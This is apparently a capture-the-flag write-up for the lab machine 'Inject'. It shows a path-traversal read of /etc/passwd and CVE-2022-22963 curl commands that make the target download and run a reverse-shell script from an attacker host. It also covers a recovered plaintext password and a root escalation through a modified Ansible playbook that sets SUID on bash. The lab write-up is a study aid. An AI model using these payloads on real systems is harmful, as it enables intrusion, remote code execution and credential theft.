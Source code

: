 ## INject

```
Nmap scan report for 10.10.11.204
Host is up (0.39s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

found upload in home page 


once uploaded we can see where the image is written on host



GET /show_image?img=image.png  


## Vulnerability

**LFI**


```html
GET /show_image?img=../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.204:8080/upload
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Cache-Control: max-age=0
```


found a interesting file


```html
GET /show_image?img=../../../../../../var/www/WebApp/pom.xml HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.204:8080/upload
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Cache-Control: max-age=0

```

which reveals the spring version

```xml
<dependency>
	<groupId>org.springframework.cloud</groupId>
	<artifactId>spring-cloud-function-web</artifactId>
	<version>3.2.2</version>
</dependency>
```

https://github.com/Kirill89/CVE-2022-22963-PoC




header post request 




```bash
curl -X POST -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("curl IP/rev.sh -o /tmp/rev.sh")' -d sticazzi http://10.10.11.204:8080/functionRouter


curl -X POST -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash /tmp/rev.sh")' -d sticazzi http://10.10.11.204:8080/functionRouter

```


## Pwned


once pwned we are frank ! 


in home we find a .m2 directory 

settings.xml gives us a phil passwd


```
	<username>phil</username>
	<password>DocPhillovestoInject123</password>

```



`su phil` give us the access on phil ! 


## Privilega Escalation



on /opt/automation/tasks/playbook_1.yml 


we can change it like this


#### Original

```yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started

```

#### Modified

```yml
- hosts: localhost
  tasks:
  - name: shell
    command: sudo chmod u+s /bin/bash
    ```


once uploaded 


`ansible-playbook my.yml`


and with /bin/bash -p 


we are **root**




















